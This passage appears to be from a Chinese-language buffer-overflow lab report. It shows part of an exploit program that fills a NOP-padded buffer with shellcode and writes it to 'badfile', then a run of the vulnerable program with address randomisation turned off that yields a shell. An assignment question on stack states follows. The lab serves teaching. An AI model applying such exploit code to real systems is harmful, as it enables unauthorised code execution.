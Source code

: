 ```c
  }

  // shellcode 的 终止符
  buffer[BUFFER_SIZE-1] = '\0';
}

void main(int argc, char **argv) {
  char buffer[BUFFER_SIZE];
//	printf("buffer addr (%p)\n", buffer);
  FILE *badfile;

  /*使用 0x90 初始化缓冲区（NOP 指令）*/
  memset(&buffer, 0x90, BUFFER_SIZE);

  /*您需要在此处使用适当的内容填充缓冲区*/
  fillBuffer(buffer);

  /*将内容保存到文件"badfile"*/
  badfile = fopen("./badfile", "w");
  fwrite(buffer, BUFFER_SIZE, 1, badfile);
  fclose(badfile);
}

```





## 三、运行 stack 读入 shellcode

```bash
setarch i386 -R ./stack
$ who
hxn      tty7         Apr 17 18:30 (:0)
$ id
uid=1000(hxn) gid=1000(hxn) groups=1000(hxn),4(adm),24(cdrom),27(sudo),29(audio),30(dip),46(plugdev),113(lpadmin),128(sambashare)
```

可以看出 shellcode 执行成功，我们获取了 shell





## 四、stack.asm 分析与栈溢出攻击的实现

详细分析 stack.asm 中的 main 函数及 bof 函数对应的汇编指令序列，画出
从 main 起始到调用 bof 函数执行、再到返回 main 的过程中关键的栈状态。解释
这些关键的栈状态，说明栈溢出攻击是如何实现的。（需要画出并解释的栈状态
包括但不限于：

- call fread 后，call bof 前，
- bof 内 call strcpy 前，
- bof 内 call strcpy 后，bof 内 ret 前，
- 从 bof 返回 main 后。 
注：要求自己画栈状态，禁止从阅读材料中复制。 
